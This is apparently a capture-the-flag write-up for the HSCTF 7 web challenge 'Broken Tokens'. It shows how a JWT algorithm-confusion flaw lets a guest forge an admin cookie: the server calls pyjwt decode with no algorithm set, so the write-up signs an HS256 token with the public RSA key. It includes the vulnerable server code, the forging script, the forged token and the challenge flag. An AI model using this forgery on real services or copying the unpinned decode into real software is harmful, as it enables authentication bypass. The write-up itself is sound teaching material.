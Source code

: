 ```yaml
---
title: Broken Tokens
date: 2020-06-06
tags: web, jwt
ctf: HSCTF 7
---
```

## Problem
```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

The program also provided [main.py](./files/main.py) which appeared to be the code on the server.

## Solution
The page greets us with a web portal login, and a public key file ([publickey.pem](./files/publickey.pem)). Upon inspection, the login seemed to use server sided authentication. Trying to login with random credentials showed us a page stating ```Logged in as guest``` and left a cookie named ```auth```:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

The format appears to be a JWT token. Using a [web JWT tool](https://jwt.io/), we can decode the token to find more information. The header contains:
```py
{
  "typ": "JWT",
  "alg": "RS256"
}
```
and there is a payload:
```py
{
  "auth": "guest"
}
```

We need to create a modified JWT token that contained ```"auth": "admin"``` to gain access to the admin page, which contains the flag. The JWT token is signed using the RS256 algorithm, which is an asymmetric algorithm that uses a private and public keypair. Without any other vulnerabilities, we would need to bruteforce the private key in order to sign a modified token, which is practically impossible. Looking at the server code ([main.py](./files/main.py)), we can find some information about how the token is validated:

```py
import jwt

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

def index():
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp
```
The server decodes the JWT token with the following line:
```py
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

Looking at the [pyjwt API reference](https://pyjwt.readthedocs.io/en/latest/api.html), we note that the implementation of jwt.decode() did not specify an algorithm. This means that we can attempt to create a JWT token using a different algorithm, such as HS256, which is a symmetric algorithm that uses a secret key to sign the JWT. pyjwt would then use the ```PUBLIC_KEY``` as the secret key. Since we know what ```PUBLIC_KEY``` is, we can easily create a valid token.

Copying the usage of pyjwt and opening publickey.pem in the exact same method (to prevent weird errors with newlines): ([brokentokens.py](./files/brokentokens.py))
```py
import jwt

f = open("publickey.pem", "r")
PUBLIC_KEY = f.read()

key = jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256")
print(key)
```

When attempting to run the code, we get an error:
```
"File "C:\Python38\lib\site-packages\jwt\algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret."
```

It seems like newer versions of pyjwt prevent signing JWT tokens with HMAC keys that are formatted as an RSA key. We can bypass this by installing an older version of pyjwt (<=0.4.3) where the exception was not implemented yet. After ```pip install pyjwt==0.4.3```, we get our new JWT token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

When we swap our cookie with the new JWT token, we are now logged in as admin and are greeted with the flag!

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

**Flag:** ```flag{1n53cur3_tok3n5_5474212}```